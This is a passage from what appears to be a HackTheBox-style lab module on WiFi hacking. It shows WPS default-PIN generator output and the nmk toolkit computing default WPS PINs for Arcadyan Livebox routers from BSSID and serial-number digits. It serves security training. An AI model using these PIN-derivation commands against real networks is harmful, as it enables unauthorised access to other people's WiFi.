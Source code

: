 ```shell
                    +-----------------------------------+

                              Your choice : 1

                    -------------------------------------

                1 > Insert eSSID and press <Enter> : HackTheBox

                2 > Insert bSSID and press <Enter> : 72:40:6e:74:2f:3b

--------------------------------------------------
       ¡UNKNOWN OR UNSUPPORTED MODEL!
--------------------------------------------------
                 POSSIBLE PIN > 76142673

      ......  press <enter> to continue......

```

* * *

### Using Naranja MekaniK (nmk) to generate WPS PIN

[Naranja MekaniK (nmk)](https://github.com/kcdtv/nmk) is a tool kit that proposes different ways to generate the default WPS PIN for:

- Arcadyan ARV7519RW22
- Arcadyan ARV7520CW22
- Arcadyan VRV9510KWAC23

The first two models are also known as `Livebox 2.1`, and the third one is known as `Livebox Next`.

We need to enter the last four digits of the BSSID (from the 2.4GHz network) and the last four digits of the serial number. The serial number can be found on a sticker attached to the back of the router.

```shell
 python2 /opt/nmk/orangen.py A2BD 7281

99559236

```

* * *

## Moving On

In this section, we explored various methods to obtain WPS default PINs for certain vendors. Hopefully, by this point, we are able to retrieve the WPS PIN and WPA-PSK using these less aggressive methods. In the next section, we will explore another WPS attack known as the Pixie Dust Attack (Offline Method). This method can potentially provide us with the WPS PIN in seconds if the target is vulnerable.

The tools showcased in this section can be found inside the /opt directory of the lab machine.

